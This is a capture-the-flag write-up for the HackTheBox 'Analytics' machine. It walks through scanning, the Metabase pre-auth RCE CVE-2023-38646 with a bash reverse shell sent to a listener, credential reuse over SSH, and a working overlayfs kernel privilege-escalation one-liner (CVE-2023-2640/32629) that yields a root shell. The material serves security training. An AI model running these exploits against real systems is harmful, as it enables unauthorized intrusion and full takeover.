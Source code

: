 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Scanning & Enumeration

```bash
ping <Analytics IP Address>                            # Verify host is up (TTL ~63 = Linux)
sudo nmap -T4 -A -p- <Analytics IP Address>            # Full aggressive scan
nano /etc/hosts                                        # Map domain + subdomain
# Example entry: <Analytics IP> analytical.htb data.analytical.htb
```

---

## 🕸️ [Web Application Analysis](HTTP)

```http
http://data.analytical.htb/auth/login                 # Found Metabase login portal
```

---

## 📌 Exploit CVE-2023-38646 (Metabase Pre-Auth RCE)

**Reference:** [GitHub - m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token
curl http://data.analytical.htb/api/session/properties

# Start listener
sudo nc -nlvp 4444

# Launch exploit
python3 main.py -u http://data.analytical.htb -t <setup-token> -c "bash -i >& /dev/tcp/<your-IP>/4444 0>&1"
```

---

## 🐚 [Shell](SSH) Access & User PrivEsc

```bash
cd /home/metabase                                    # Check for user flag (none found)
env                                                  # Enumerate environment variables
ssh metalytics@<Analytics IP>                        # SSH using creds from env
cat user.txt                                         # Get user flag
```

---

## ⛏️ Privilege Escalation (Kernel Exploit)

### Check Permissions & Environment

```bash
id                                                   # Check UID/GID
mkdir /opt/testdir                                   # Check directory write permissions (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
cat /proc/version                                    # Find kernel version: Ubuntu 22.04.2
```

### Exploit CVE-2023-2640 / CVE-2023-32629

**Reference:** [GitHub - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && \
u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && \
chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

---

## 🔐 Root Access

```bash
cat /root/root.txt                                   # Get root flag
```